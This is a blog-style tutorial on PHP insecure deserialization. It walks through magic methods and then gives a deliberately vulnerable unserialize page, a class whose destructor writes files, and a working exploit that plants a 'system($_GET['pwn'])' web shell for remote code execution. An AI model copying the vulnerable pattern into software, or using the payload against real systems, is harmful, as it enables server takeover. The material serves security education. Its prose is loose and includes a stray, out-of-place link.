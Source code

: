 In the information security world, we know that operating with untrustworthy content is a shot in the foot, and for [**Six Thinking Hats**](https://en.wikipedia.org/wiki/Six_Thinking_Hats), a frequent source of high-impact problems. Object serialization is no exception to this rule, and attacks against serialization schemes are innumerable. Unfortunately, developers attracted by the efficiency and ease of native and reflection-based serialization continue to build software based on these practices.

As common languages like java and python, php also supports serialization and issues of using serialization. but, what's serialize?
"**serialize()** php function returns a string containing a byte-stream representation of any value that can be stored in PHP". And, unserialize its the "reverse process". simply by converting bytes to object again. it takes a single serialized variable and converts it back into a PHP value, but, exploit deserialization, for example, in java depends on code flaw, the python don't, and in **PHP** depends on code flow inside magic methods.



PHP has serialized format when serialize object that can help unserialize method to identitfy each element and get code back. Let's take a look at [magic methods](http://php.net/manual/pt_BR/language.oop5.magic.php) used through (de)serialization.

* __sleep

* __wakeup

* __toString 

* __destruct 

**Sleep** it's used with serialization, and called when an object is serialized and must be returned to array. serialize checks if your class has a function with the magic name **sleep()**. If there is, the function is executed before any serialization. It can clear the object and must return an array with the names of all object variables that must be serialized. If the method does not return anything, then NULL is serialized and an E_NOTICE triggered.

**wakeup** its called when some object its deserialized.The purpose of wakeup is to resume any database connection that may have been lost during serialization, and perform other reboot tasks.

**tostring** uses object as string but also can be used to do something like read files. it allows a class to decide how to behave when converted to a string.This method needs to return a string, otherwise an error level E_RECOVERABLE_ERROR is generated.

**destruct** The destructor will be called even if the script is terminated using exit(). Calling exit() on a destructor will prevent all other shutdown routines from executing.

![output](/assets/images/ss1.png)


**O:7:"example":1** tells us there are objects having length 7 named example and has one property. **s:1:"x";s:18:"Just a simple text";** hat property inside object has string and has length 1 and named "x" this part tells us to create variables without initializing and **s:18:"Just a simple text"** it var with initializing and string has length 18.

# Exploitation

now, let's see how it works in the practice of exploration.

lets write 3 files.


```
<?php

include 'Magic.php';
$x = unserialize($_GET['content']);
echo '<h1>'.$x;
?>
```

---

```
<?php
class exploit
{
	public $filename = 'example.txt';
	public $content = 'lynfs';
	public function __destruct()

	{
		file_put_contents($this->filename, $this->content);
	}
}
?>
```

---

and the exploit:

```
<?php

include 'Magic.php';
$x=new exploit();
$x->filename="root.php";
$x->content='<?php echo system($_GET[\'pwn\']); ?>';
echo serialize($x);
?>
```

* 1st its the "main". the guy that uses our unserialized object to write our shell.
* 2nd its it write to file. you can see it has destruct and inside function to write to file.cuz if we control whats sends to deserialization process, we can abuse and write a exploit code. 
* and finally, our exploit code. first, we include the Magic.php ( second code ) cuz it has magic method **destruct** and create object from class exploit and initialize file name what file we want named and content to PHP our shell and finally serialize it.

now, lets run it.

![output-exploit](/assets/images/xplout.png)

now, sending our exploit output for serialized object, it will be unserialized.

![send-xpl-out](/assets/images/infoout.png)

as u can see, no errors. lets check our directory:

![sucess-shell-out](/assets/images/shellmade.png)

and there is our shell "root.php". using the $_GET param to get rce:

![sucess-shell-run](/assets/images/end.png)

got it!

---

### References:

* [Php magic methods](http://php.net/manual/pt_BR/language.oop5.magic.php#object.wakeup)
* [Php Serialize manual](http://php.net/manual/kr/function.serialize.php)

## Concluding remarks

so, thx google translate 4 the support, its kinda hard to learn korean in 24hours ( LOL ). I hope somehow this post will be useful to you in life, or in some other world. Otherwise, **Lets [pwn](https://github.com/lynfs/writeups/tree/master/pwn) the world!**

